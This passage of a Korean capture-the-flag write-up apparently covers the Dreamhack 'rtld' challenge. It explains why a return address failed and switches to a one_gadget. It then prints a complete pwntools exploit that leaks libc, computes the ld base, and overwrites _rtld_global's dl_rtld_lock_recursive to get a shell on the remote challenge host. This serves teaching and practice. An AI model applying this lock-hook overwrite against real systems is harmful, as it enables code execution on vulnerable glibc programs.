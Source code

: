 아무래도 리턴 주소를 이상하게 조작한듯하다.   

이부분은 그럼 원가젯으로 대체하자.  

libc 베이스 주소도 나왔겠다 바로 원가젯을 찾아준다.  

<br>


<img width="1748" height="454" alt="image" src="https://github.com/user-attachments/assets/71b096e2-ec50-4a98-991e-ee3b28774c3b" />

이렇게 세개가 나왔고 각각 실행시켜보자.  

<br>

**최종 익스플로잇 코드**  

```python
from pwn import *

#p = process('./rtld')
p = remote('host8.dreamhack.games', 23034)

e = ELF('./rtld')
libc = ELF('./libc-2.23.so')
ld = ELF('./ld-2.23.so')

p.recvuntil(b': ')

stdout = int(p.recvuntil(b'\n'), 16)
libc_base = stdout - libc.symbols['_IO_2_1_stdout_']
ld_base = libc_base + 0x3ca000

print('libc_base..', hex(libc_base))
print('ld_base..', hex(ld_base))

rtld_global = ld_base + ld.symbols['_rtld_global']
dl_load_lock = rtld_global + 2312
dl_rtld_lock_recursive = rtld_global + 3848

print('rtld_global..', hex(rtld_global))
print('dl_load_lock..', hex(dl_load_lock))
print('dl_rtld_lock_recursive..', hex(dl_rtld_lock_recursive))

one_gadget = libc_base + 0x4527a
#one_gadget = libc_base + 0xf03a4 < Failed address
#one_gadget = libc_base + 0x45226 < Failed address

p.sendlineafter(b'addr: ', str(dl_rtld_lock_recursive).encode())
p.sendlineafter(b'value: ', str(one_gadget).encode())

p.interactive()
```

`one_gadget = libc_base + 0x4527a` 일 때만 실행이 된다.  

<br>

<img width="1621" height="1119" alt="image" src="https://github.com/user-attachments/assets/4d543ddd-104d-4906-a81a-619f9bcf65b2" />

성공 gg
